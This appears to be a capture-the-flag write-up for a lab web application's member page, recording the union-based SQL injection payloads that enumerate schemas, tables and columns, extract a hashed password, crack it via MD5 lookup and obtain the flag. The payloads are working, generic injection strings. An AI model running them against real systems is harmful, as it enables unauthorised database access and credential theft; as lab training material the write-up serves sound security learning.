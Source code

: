 # UNION BASED SQL INJECTION


## Flag
```
10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5
```

## Discovery
go to ==> http://{IP_ADDRESS}/index.php?page=member


https://www.sqlinjection.net/table-names/

-1 UNION ALL SELECT table_name,concat(column_name) FROM information_schema.COLUMNS 

Get database names:
>Retrieve database names:
>	-1 UNION ALL SELECT NULL,concat(schema_name) FROM information_schema.schemata--
>Retrieve tables names:
>	-1 UNION ALL SELECT NULL,concat(TABLE_NAME) FROM information_schema.TABLES WHERE table_schema='Member_Sql_Injection'--
-1 UNION ALL SELECT table_name,concat(column_name) FROM information_schema.COLUMNS WHERE TABLE_NAME='table1'

-1 UNION SELECT username, password FROM db_default WHERE username=admin
-1 UNION ALL SELECT NULL,concat(column_name) FROM information_schema.COLUMNS WHERE TABLE_NAME='users'
-1 UNION SELECT first_name, countersign FROM users
-1 UNION SELECT username, password FROM db_default WHERE user_id=5


user_id		first_name 	last_name 	town 	country 	planet 	commentaire 
5			flag		 GetThe 	42	 	42 			42 		Decrypt this password -> then lower all the char. Sh256 on it and it's good !  

countersign
5ff9d0165b4f92b14994e5c685cdce28 decrypt using md5 ==> FortyTwo 

## Helpers:
- [retrieve data from db](https://www.sqlinjection.net/table-names/)
- [dcode - cipher identifier](https://www.dcode.fr/cipher-identifier)
- [md5decrypt - md5](https://md5decrypt.net/en/)
